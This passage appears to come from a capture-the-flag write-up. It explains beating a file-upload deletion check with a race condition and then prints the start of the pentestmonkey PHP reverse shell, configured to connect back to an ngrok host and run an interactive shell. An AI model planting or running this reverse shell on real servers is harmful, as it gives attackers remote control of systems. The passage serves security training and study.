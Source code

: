![img](./img/15.png)

So the idea of this chall would be to simply upload a reverse shell. but how can we upload our script without being deleted? The answer is race condition ^^. We will create multi thread and then send the request at the same time

``revershell.php:``
```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '2.tcp.ngrok.io';
$port = 10838;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

```
